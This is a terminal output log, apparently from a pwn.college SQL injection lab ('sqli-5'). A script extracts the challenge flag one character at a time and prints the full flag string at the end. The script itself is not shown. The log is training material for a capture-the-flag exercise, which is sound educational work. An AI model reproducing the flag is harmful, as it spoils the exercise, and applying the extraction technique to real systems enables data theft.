 ```
hacker@web-security~sqli-5:/$ python ~/script.py 
[+] Found so far: p
[+] Found so far: pw
[+] Found so far: pwn
[+] Found so far: pwn.
[+] Found so far: pwn.c
[+] Found so far: pwn.co
[+] Found so far: pwn.col
[+] Found so far: pwn.coll
[+] Found so far: pwn.colle
[+] Found so far: pwn.colleg
[+] Found so far: pwn.college
[+] Found so far: pwn.college{
[+] Found so far: pwn.college{Q
[+] Found so far: pwn.college{Qc
[+] Found so far: pwn.college{Qcq
[+] Found so far: pwn.college{QcqW
[+] Found so far: pwn.college{QcqWG
[+] Found so far: pwn.college{QcqWGp
[+] Found so far: pwn.college{QcqWGpB
[+] Found so far: pwn.college{QcqWGpBU
[+] Found so far: pwn.college{QcqWGpBUx
[+] Found so far: pwn.college{QcqWGpBUx2
[+] Found so far: pwn.college{QcqWGpBUx29
[+] Found so far: pwn.college{QcqWGpBUx29_
[+] Found so far: pwn.college{QcqWGpBUx29_s
[+] Found so far: pwn.college{QcqWGpBUx29_s2
[+] Found so far: pwn.college{QcqWGpBUx29_s2h
[+] Found so far: pwn.college{QcqWGpBUx29_s2hu
[+] Found so far: pwn.college{QcqWGpBUx29_s2huw
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwr
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwru
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruw
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwT
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTk
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkm
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmE
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEW
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWU
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.d
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dN
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNT
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTO
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOz
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzM
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMD
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4I
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4IT
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4ITM
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4ITM0
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4ITM0E
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4ITM0Ez
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4ITM0EzW
[+] Found so far: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4ITM0EzW}
[*] Done. Final password: pwn.college{QcqWGpBUx29_s2huwruwTkmEWUn.dNTOzMDL4ITM0EzW}
```
